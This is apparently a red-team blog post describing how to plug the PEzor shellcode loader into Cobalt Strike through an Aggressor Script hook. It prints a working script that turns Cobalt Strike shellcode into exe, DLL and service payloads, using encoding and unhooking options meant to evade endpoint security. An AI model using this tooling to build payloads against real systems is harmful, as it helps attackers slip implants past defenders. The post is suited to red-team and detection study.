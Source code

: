 ```yaml
---
layout: default
---
```


_**Feb 17, 2021**_

# Generating Custom Cobalt Strike Artifacts with PEzor

Let's continue our journey with [Cobalt Strike](https://www.cobaltstrike.com/) and [PEzor](https://github.com/phra/PEzor) by integrating it via [Aggressor Scripts' Hooks](https://www.cobaltstrike.com/aggressor-script/hooks.html) in order to generate custom artifacts that will be seamlessy used by the framework when generating payloads on the fly.

![PEzor v2.1.0](../assets/images/pezor-v2.1.0.jpg "PEzor v2.1.0")

## Motivation

When implementing the `execute-inmemory` functionality, described in the [previous post](https://iwantmore.pizza/posts/PEzor2.html), I had to implement a custom [Sleep](http://sleep.dashnine.org/manual/) subroutine to convert the provided executable into a [Reflective DLL](https://github.com/stephenfewer/ReflectiveDLLInjection) or a .NET assembly.
But wouldn't be nice if we can reuse a similar mechanism in order to build custom artifacts used by built-in and post-exploitation modules?

## Aggressor Scripts' Hooks

The Cobalt Strike framework exposes APIs to developers for integrating custom, external tooling within its payload generation flow.
In particular, we are interested in the [EXECUTABLE_ARTIFACT_GENERATOR](https://www.cobaltstrike.com/aggressor-script/hooks.html#EXECUTABLE_ARTIFACT_GENERATOR) hook since we want to customize binary artifacts generated by the framework when executing post-exploitation modules.
By overriding the default internal behaviour, we are able to customize the artifacts in a completely trasparent way so that existing aggressor scripts using the [artifact_payload](https://www.cobaltstrike.com/aggressor-script/functions.html#artifact_payload) and [artifact_stager](https://www.cobaltstrike.com/aggressor-script/functions.html#artifact_stager) functions will continue to work as expected while benefiting of functionalities provided by external tooling.

## Source Code

By checking out the source of the official [Artifact Kit](https://www.cobaltstrike.com/help-artifact-kit), we can understand how to override the default behaviour by declaring the [EXECUTABLE_ARTIFACT_GENERATOR](https://www.cobaltstrike.com/aggressor-script/hooks.html#EXECUTABLE_ARTIFACT_GENERATOR) hook.
The framework is invoking the code associated with the hook by passing in two arguments:

- `$1` - the filename of one of the default artifacts' templates to hint about the desired format
    - `artifact32big.dll`
    - `artifact32.dll`
    - `artifact32big.exe`
    - `artifact32.exe`
    - `artifact32svcbig.exe`
    - `artifact32svc.exe`
    - `artifact64big.x64.dll`
    - `artifact64big.exe`
    - `artifact64.exe`
    - `artifact64svcbig.exe`
    - `artifact64svc.exe`
    - `artifact64.x64.dll`
- `$2` - the shellcode to be executed by the generated artifact

Since we are integrating a fully featured shellcode loader that implements all the required output formats of the framework, we can entirely skip using the official [Artifact Kit](https://www.cobaltstrike.com/help-artifact-kit) by using our own templates. (_in this case the ones shipped with PEzor_)

Here's the main source code of the hook:

```perl
include(script_resource("utils.cna"));
include(script_resource("PEzor.cna"));

# Artifact Kit Integration Script

# Windows Executables and DLLs
#
# Arguments
# 	$1 = artifact file (e.g., artifact32.exe)
# 	$2 = shellcode
# Return 
#	our generated artifact
set EXECUTABLE_ARTIFACT_GENERATOR {
	local('$opts $format $payload $resource $tmpfile');

	($resource, $payload) = @_;

	$tmpfile = get_random_temp_filename();
	write_file($tmpfile, $payload);
	$opts = "-sgn -unhook";

	if ($resource eq "artifact32big.dll") {
		$format = "-32 -format=dll";
	} else if ($resource eq "artifact32.dll") {
		$format = "-32 -format=dll";
	} else if ($resource eq "artifact32big.exe") {
		$format = "-32 -format=exe";
	} else if ($resource eq "artifact32.exe") {
		$format = "-32 -format=exe";
	} else if ($resource eq "artifact32svcbig.exe") {
		$format = "-32 -format=service-exe";
	} else if ($resource eq "artifact32svc.exe") {
		$format = "-32 -format=service-exe";
	} else if ($resource eq "artifact64big.exe") {
		$format = "-64 -format=exe";
	} else if ($resource eq "artifact64big.x64.dll") {
		$format = "-64 -format=dll";
	} else if ($resource eq "artifact64.exe") {
		$format = "-64 -format=exe";
	} else if ($resource eq "artifact64svcbig.exe") {
		$format = "-64 -format=service-exe";
	} else if ($resource eq "artifact64svc.exe") {
		$format = "-64 -format=service-exe";
	} else if ($resource eq "artifact64.x64.dll") {
		$format = "-64 -format=dll";
	}

	return read_file(execute_PEzor("$format $opts $tmpfile"));
}
```

As we can see from the source, we are simply mapping the filenames used internally to PEzor command line options in order to generate the artifact in the appropriate output format. 
The complete, updated aggressor scripts can be found in the [/aggressor](https://github.com/phra/PEzor/tree/master/aggressor) folder on the PEzor repository.
